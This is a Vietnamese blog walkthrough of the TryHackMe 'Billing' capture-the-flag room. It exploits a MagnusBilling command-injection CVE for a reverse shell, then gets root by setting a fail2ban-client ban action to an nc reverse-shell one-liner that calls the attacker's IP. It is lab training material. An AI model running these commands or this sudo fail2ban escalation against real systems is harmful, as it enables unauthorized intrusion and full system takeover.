 ---
title: "Billing"
description: "Một số sai lầm có thể phải trả giá đắt."
publishDate: 2025-09-04
tags: 
- TryHackMe
- CTF - Capture The Flag
- Challenges
- Privilege Escalation
draft: false
language: 'Việt Nam'
heroImage: { src: './thumbnail.png', color: '#d90236' }
---


[***Link thử thách***](https://tryhackme.com/room/billing)

## Thu thập thông tin

### Nmap scan

Mình thực hiện scan các cổng thì thấy một số cổng đang mở như:

- Dịch vụ SSH.
- HTTP đang chạy trên Apache 2.4.62
- Asterisk Call Manager - theo mình tìm hiểu được thì đây là **API realtime của Asterisk** cho phép developer xây dựng các ứng dụng xoay quanh hệ thống VoIP/Tổng đài.

```shell
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0) # [!code highlight:1]
| ssh-hostkey: 
|   256 fb:7c:b8:0d:50:f4:93:61:6b:ce:21:65:19:33:66:ba (ECDSA)
|_  256 f1:e3:57:25:0b:8a:3a:20:40:82:04:a0:f7:40:bf:c2 (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian)) # [!code highlight:1]
|_http-server-header: Apache/2.4.62 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.201.16.39/mbilling/
5038/tcp open  asterisk Asterisk Call Manager 2.10.6 # [!code highlight:1]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Dịch vụ HTTP

Khi truy cập vào website, mình được chuyển hướng tới `/mbilling`.

![img](imgs/1.png)

Mình tìm hiểu được rằng đây là một ứng dụng web mã nguồn mở `MagnusBilling`.

Và mình tìm thấy được file `README.md` có thông tin rằng họ đang ở phiên bản `7.x.x`.

![img](imgs/2.png)

Tìm kiếm một tí thì phiên bản này có một lỗ hổng có `CVE` là `2023-30258` cho phép thực thi lệnh.

![img](imgs/3.png)

## Flag 1

### Lỗ hổng Command Injection

Khi thực thi như PoC thì không có kết quả nào trả về.

![img](imgs/4.png)

Để chắc chắn lệnh có thể thực thi, mình sử dụng kỹ thuật `time delay`, nếu lệnh thực thi được thì nó sẽ phải mất một khoảng thời gian để phản hồi.

Và đúng như dự định với lệnh `ping -c 5` đến localhost thì mất khoảng gần 5 giây để hoàn thành, chứng minh lệnh đã thực thi.

![img](imgs/5.png)

### Truy cập người dùng asterisk và flag

Mình thực hiện mở một `reverse shell` và vào được tài khoản `asterisk`.

Sau đó, mình sử dụng kỹ thuật `Stabilizing` để có thể tương tác shell linh hoạt hơn.

```shell
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/billing]
└─$ nc -lvnp 7304                                       
listening on [any] 7304 ...
connect to [10.17.67.204] from (UNKNOWN) [10.201.16.39] 59284
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'  # [!code highlight:1]
asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$ export TERM=xterm  # [!code highlight:1]
export TERM=xterm
asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$ ^Z  # [!code highlight:1]
zsh: suspended  nc -lvnp 7304
                                                                                                                                                             
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/billing]
└─$ stty raw -echo; fg  # [!code highlight:1]
[1]  + continued  nc -lvnp 7304

asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$
```

Tại `home` của `asterisk` có file `user.txt` chứa flag.

![img](imgs/6.png)

## Flag 2

### fail2ban-client

Kiểm tra qua thì mình thấy người dùng này có thể sử dụng `fail2ban-client` với quyền `sudo`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on ip-10-201-18-163:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-18-163:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

<Aside type="tip" title='Thông tin'>
Theo [wikipedia](https://en.wikipedia.org/wiki/Fail2ban),

*Fail2Ban là một phần mềm phòng ngừa xâm nhập. Được xây dựng bằng ngôn ngữ Python, nó được thiết kế để ngăn chặn các cuộc tấn công brute-force. Nó chạy trên các hệ thống POSIX có giao diện với hệ thống kiểm soát gói tin hoặc tường lửa được cài đặt cục bộ, như iptable hoặc TCP Wrapper.*
</Aside>

Và `fail2ban-client` là ứng dụng cho phép tương tác, cấu hình và điều khiển `fail2ban-server`.

Thường thì ứng dụng này sẽ hoạt động với quyền `root`, điều đó dẫn tới việc leo thang đặc quyền lên root nếu cấu hình chưa tốt.

```shell
ps -aux | grep fail2ban
root         852  0.1  1.5 1171732 31244 ?       Ssl  20:12   0:05 /usr/bin/python3 /usr/bin/fail2ban-server -xf start  # [!code highlight:1]
```

Ứng dụng này hoạt động dựa trên các `Jail`, giải thích đơn giản thì đây là các cấu hình mà khi các hệ thống giám sát log phát hiện điều gì trùng khớp với cấu hình này sẽ thực hiện hành động như được thiết đặt.

Mình kiểm tra các `Jail` thì mình thấy có 8 `Jail` này, chọn cái nào cũng được miễn là nó `active`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Tại đây mình chọn `sshd` và tạo một action mới tên `exploit`.

```shell
sudo fail2ban-client set sshd action exploit
```

Tại action này mình cho nó thực hiện mở kết nối `reverse shell`, nghĩa là mỗi khi ban một IP nó sẽ thực hiện hành động mà mình đã đặt là

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.67.204 7305 >/tmp/f;`.

```shell
sudo fail2ban-client set sshd action exploit actionban "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.67.204 7305 >/tmp/f;"
```

### Truy cập người dùng root và flag

Khi thực hiện ban IP bất kỳ, nó sẽ bắt đầu thực hiện `reverse shell`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo fail2ban-client set sshd banip 127.0.0.1
1
```

Khi kết nối `reverse shell` thực hiện thành công, mình đã leo thang đặc quyền lên được `root` và tìm được flag trong file `root.txt` tại thư mục `/root`.

![img](imgs/7.png)